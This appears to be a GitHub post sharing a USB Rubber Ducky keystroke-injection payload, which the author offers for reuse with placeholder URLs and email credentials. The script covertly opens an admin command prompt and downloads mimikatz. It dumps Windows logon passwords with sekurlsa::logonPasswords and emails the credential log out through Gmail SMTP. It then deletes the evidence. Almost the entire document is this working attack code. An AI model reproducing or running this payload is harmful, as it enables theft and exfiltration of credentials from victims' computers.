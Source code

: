 This payload:  
1. Downloads appropriate mimikatz version via http (I used dropbox)  
2. Opens a admin prompt  
3. saves mimikatz log to file  
4. emails log via gmail  


please change these lines to something (keep the single quote):  
'url to 32bit mimikatz.exe'  
'url to 64bit mimikatz.exe'  
'gmailuser', 'gmail password'  
'sending email account'  
'email account to send report'  


Sorry about the wacky delays!  


```
REM Author: Pesce
REM Date: 10/20/2013
REM Note: Thanks to all the help everyone! This is my first attempt, don't be to upset!
REM -------------open command prompt with admin privileges
DELAY 3000
CONTROL ESCAPE
DELAY 1000
STRING cmd
DELAY 1000
CTRL-SHIFT ENTER
DELAY 1000
ALT y
ENTER
DELAY 300
REM -------------download appropriate mimikatz for architecture
STRING powershell if ([System.IntPtr]::Size -eq 4) { (new-object System.Net.WebClient).DownloadFile('http://url to 32bit mimikatz.exe','%TEMP%\pw.exe');  }else{ (new-object System.Net.WebClient).DownloadFile('http://url to 64bit mimikatz.exe','%TEMP%\pw.exe');}
ENTER
DELAY 5000
REM -------------get the passwords and save to c:\pwlog.txt
STRING %TEMP%\pw.exe > c:\pwlog.txt & type pwlog.txt;
ENTER
DELAY 2000
STRING privilege::debug
ENTER
DELAY 1000
STRING sekurlsa::logonPasswords full
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 300
STRING del %TEMP%\pw.exe
ENTER
DELAY 300
REM -------------email log via gmail
STRING powershell
ENTER
DELAY 300
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('gmailuser', 'gmail password');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'sending email account'
ENTER
STRING $ReportEmail.To.Add('email account to send report')
ENTER
STRING $ReportEmail.Subject = 'Duck Report'
ENTER
STRING $ReportEmail.Body = 'Attached is your duck report.' 
ENTER
STRING $ReportEmail.Attachments.Add('c:\pwlog.txt')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 1000
STRING exit
ENTER
REM ---------------------delete and end
STRING del c:\pwlog.txt
ENTER
DELAY 300
STRING exit
ENTER
```